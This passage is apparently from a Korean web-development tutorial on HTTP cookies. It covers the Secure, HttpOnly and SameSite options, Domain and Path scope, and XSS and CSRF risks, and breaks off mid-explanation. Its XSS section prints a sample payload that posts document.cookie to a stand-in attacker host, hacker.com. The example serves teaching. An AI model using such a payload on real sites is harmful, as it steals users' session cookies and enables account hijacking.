 Secure옵션을 설정해도 연결 자체가 취약할 수 있으므로, 민감한 정보는 쿠키에 저장하지 않는 것이 원칙이다.

### 4. HttpOnly 쿠키

HttpOnly 옵션을 사용하면 자바스크립트의 document.cookie를 통해 쿠키 정보에 접근할 수 없게 된다. Cross-site 스크립팅 (XSS) 공격을 방지하기 위한 옵션이다.

```jsx
// Secure, HttpOnly 옵션을 첨가했으므로 이 쿠키는 Https 연결 상에서만 서버로 전송되고,
// 자바스크립트의 document.cookie 코드로 쿠키에 접근할 수 없다.
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

### 5. SameSite 쿠키

SameSite 옵션은 CSRF (Cross-Site-Request-Forgery) 공격을 방지하기 위한 옵션이다. 말 그대로 SameSite는 쿠키가 cross-site의 요청과 함께 전달되지 않음을 요구하는 방식으로 CSRF 공격을 방지한다. 아직까지는 실험 중에 있으며, 지원하는 브라우저도, 그렇지 않은 브라우저도 있다. 

## 쿠키의 스코프

Domain과 Path 옵션은 쿠키의 스코프를 명시한다.

### Domain

Domain 옵션은 쿠키가 전송될 도메인의 범위를 지정한다. 예를 들어, domain=google.com 으로 설정한다면 이 쿠키는 google.com을 포함한 서브 도메인에게만 전송된다.

(서브 도메인 예시 : mail.google.com, translate.google.com 등)

### Path

path 옵션은 해당 쿠키가 전송될 URL의 범위를 지정한다. 예를 들어, path=/docs 로 설정한다면 이 쿠키는 /docs, /docs/main, /docs/index 등과 같은 경로는 전송되지만 /other 과 같은 경로는 해당 쿠키를 받을 수 없다.

## 보안

쿠키는 클라이언트 측에 저장되는 만큼 보안이 취약하다. 대표적으로 XSS (Cross-Site Scripting) 과 CSRF (Cross-Site Request Forgery) 공격에 쿠키가 이용된다. 각 공격 기법에 대한 자세한 내용은 나중에 다루고, 여기서는 쿠키가 어떻게 이용될 수 있는지를 살펴보자.

### XSS

XSS는 공격자가 특정 사이트에 자바스크립트 코드를 심어 타 클라이언트의 쿠키에 저장되어 있는 세션 ID를 훔치는 기술을 의미한다.

사이트 제작자가 입력 데이터 검사를 허술하게 할 경우 XSS 공격에 쉽게 노출될 수 있다.

예를 들어 어떤 게시판 사이트가 있을 때, 내용을 입력하는 부분에 공격자가 아래와 같은 내용을 입력 후 게시글을 포스트 했다고 가정하자.

```jsx
// hacker.com은 해커의 서버
// 해커는 자신의 서버 내에 cookie.php 파일을 만들어 둔다. 이 파일은 get으로 넘어온 데이터를
// 파싱하여 data.txt 파일로 저장해두는 파일이라고 생각하면 된다.
<script>window.open("http://hacker.com/cookie.php?data="+document.cookie)</script>
```

해커의 cookie.php 파일의 내용은 아래와 같다.
